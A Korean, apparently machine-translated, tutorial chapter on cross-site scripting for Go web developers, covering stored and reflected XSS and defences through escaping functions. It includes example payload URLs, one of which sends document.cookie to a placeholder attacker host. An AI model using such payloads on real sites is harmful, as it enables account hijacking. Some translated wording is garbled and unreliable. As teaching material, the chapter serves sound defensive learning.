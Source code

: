 # XSS Attacks

인터넷 기술의 발전에 따라, 현재의 Web 어플리케이션은 모두 대량의 동적 콘텐츠를 포함시킴으로써 가용성을 높이고 있습니다. 이른바 동적 콘텐츠는 응용 프로그램이 사용자의 환경과 사용자의 요청에 따라 해당 내용을 출력하는 것을 말합니다. 동적 홈페이지는 "크로스 사이트 스크립팅 공격 (Cross Site Scripting 보안 전문가는 보통 이것을 생략하고 XSS라고합니다)"의 위협을받을 수 있습니다. 성적 홈페이지는 완전히이 영향을받지 않습니다.

## XSS 란 무엇인가
XSS 공격 : 크로스 사이트 스크립팅 (Cross-Site Scripting). 캐스 케이 딩 스타일 시트 (Cascading Style Sheets, CSS)의 생략과 혼동하지 않도록 크로스 사이트 스크립팅은 XSS와 생략됩니다. XSS는 흔히 볼 보안 취약점의 일종입니다. 이것은 공격자가 악성 코드를 다른 사용자가 사용하는 페이지에 삽입시키는 것을 허용 할 것이다. 많은 공격 (일반적으로 공격자와 피해자에만 영향을줍니다)과는 달리 XSS는 제삼자에 이릅니다. 즉 공격자 클라이언트와 Web 어플리케이션입니다. XSS 공격 목표는 클라이언트에 저장된 cookie 탈취 또는 클라이언트의 신분을 확인 신중하게 다루어야 정보를 사용하는 다른 페이지입니다. 일단 합법적 인 사용자의 정보가 취득되면 공격자는 합법적 인 사용자를 가장하여 페이지에 교환을 할 수 있습니다.

XSS는 일반적으로 두 가지로 나눌 수 있습니다 : 하나는 저장 형 XSS에서 주로 사용자 데이터를 입력하고 다른이 페이지를보고있는 사용자가 볼 수있는 장소에서 우연히합니다. 게시판, 덧글, 블로그 및 각종 양식 등입니다. 응용 프로그램은 데이터베이스에서 데이터를 검색하여 화면에 표시합니다. 공격자는 관련된 화면에서 악성 스크립트 데이터를 입력 한 다음 사용자가이 페이지를 볼 때 공격을받습니다. 이 과정을 간단히 설명하면 : 악의적 인 사용자의 Html가 Web 응용 프로그램에 입력 -> 데이터베이스에 입력 -> Web 응용 프로그램 -> 사용자의 브라우저. 다른 하나는 반사 형 XSS입니다. 주요 방법은 스크립트 코드를 URL 주소의 요청 매개 변수에 추가하는 것입니다. 요청 매개 변수가 프로그램에 들어가면 페이지에 직접 출력되어 사용자가 이러한 악의적 인 링크를 클릭하여 공격을받습니다.

현재 XSS의 주요 수단과 목적은 다음과 같습니다 :

- cookie를 훔치고 신중하게 다루어야 정보를 얻을 수 있습니다.
- Flash를 포함하여 crossdomain 권한 설정 더 높은 권한을 얻을 수 있습니다. 또는 Java 등을 이용하여 유사한 작업을 실시한다.
- iframe, frame, XMLHttpRequest 또는 위의 Flash 등 방법을 이용하여 (피해자) 사용자의 신분에있는 관리 작업을 수행한다. 또는 마이크로 블로그를 보내거나 친구를 추가하거나 개인 이메일을 보내거나 같은 일반적인 작업을 수행한다. 조금 전에 新浪 미 히로시는 XSS가 발생했습니다.
- 공격 가능한 영역을 이용하여 다른 영역의 신뢰의 기능을 받는다. 신뢰를받은 소스의 신분에서 일반적으로 허용되지 않는 작업을 요청한다. 예를 들어 부당한 투표 활동 등.
- PV가 매우 큰 페이지에서 XSS는 소형의 페이지를 공격하고 DDoS 공격의 효과를 얻을 수있다.

## XSS의 원리
Web 어플리케이션은 사용자가 보낸 요청 데이터에 대해 충분한 검사 및 필터링을 수행하지 않은 경우 사용자가 전송하는 데이터에 HTML 코드를 허용 할 것이다 (주로 ">", "<") 이스케이프되어 없는 악의적 인 코드를 제삼자 인 사용자의 브라우저에서 해석 / 실행시켜 버립니다. 이것이 XSS 보안 취약점을 낳는 원인이되고 있습니다.

이하에서는 반사 형 XSS를 예로 XSS 프로세스를 설명합니다 : 매개 변수에 의해 사용자의 이름을 출력하는 페이지가 있다고합니다. 예를 들어 url :`http : //127.0.0.1/? name = astaxie`에 액세스하면 브라우저에서 다음과 같은 정보를 출력합니다 :

hello astaxie

만약 우리가`http://127.0.0.1/?name=&#60;script&#62;alert (& # 39; astaxie, xss & # 39;) & # 60; / script & # 62;`같은 url 를 보내면 브라우저가 대화 상자를 표시하는 것을 알 것입니다. 즉, 페이지에 XSS 보안 취약점이 존재하는 것을 보여줍니다. 는 악의적 인 사용자는 어떻게하고 Cookie를 훔치는 것입니까? 위처럼`http : //127.0.0.1/? name = & # 60; script & # 62; ​​document.location.href = 'http : //www.xxx.com/cookie? + document.cookie & # 60; / script & # 62;`라는 url은 현재 cookie가 지정된 페이지 www.xxx.com로 전송됩니다. 이러한 URL은 한번보고 문제가 알 것이라고 생각 될지도 모릅니다. 도대체 누가 클릭 냐고. 그렇습니다. 이러한 URL은 남을 의심하기 쉽습니다. 그러나 URL 단축 서비스를 사용하여이를 단축하면 당신은주의 할 수 있을까요? 공격자는 단축 된 url을 어떤 경로로 전파 진상을 모르는 사용자가 일단 이런 url을 클릭하여 해당 cookie 데이터가 미리 설정된 페이지로 전송되어 버립니다. 이처럼 사용자의 cookie 정보를 훔친 후에는 Websleuth 같은 도구를 사용하여이 사용자 계정을 훔쳐 수 있는지 검사하게됩니다.

XSS에 대한 더 자세한 분석은 "[시나 웨이 보 XSS 사건 분석] (http://www.rising.com.cn/newsletter/news/2011-08-18/9621.html)"라는 기사를 참고로 해 바랍니다.

## 어떻게하고 XSS를 예방하거나
대답은 간단합니다. 사용자의 어떠한 입력도 결코 신용하지 않고 입력에 포함 된 모든 특수 문자를 필터링하는 것입니다. 이렇게하면 대부분의 XSS 공격을 근절 할 수 있습니다.

현재 XSS 방어는 주로 다음과 같은 몇 가지 방법이 있습니다 :

- 특수 문자 필터링

XSS를 방지하는 방법 중 하나는 주로 사용자가 제공하는 콘텐츠에 대해 필터링을 할 것입니다. Go 언어에서는 HTML 필터링 기능을 제공합니다 :

text / template 패키지 HTMLEscapeString, JSEscapeString 같은 함수입니다.

- HTTP 헤더에 지정된 형식을 사용하는

`w.Header () Set ( "Content-Type", "text / javascript")`

이렇게함으로써 브라우저에 html을 출력하지 않고 javascript 코드를 해석 할 수 있습니다.


## 정리
XSS 보안 취약점은 매우 위험한 것입니다. Web 응용 프로그램을 개발하고있을 때, 반드시 데이터를 필터링하도록 명심해야합니다. 특히 클라이언트에 출력하기 전에. 이것은 현재 XSS를 방지하는 수단으로 사용할 수 있습니다.

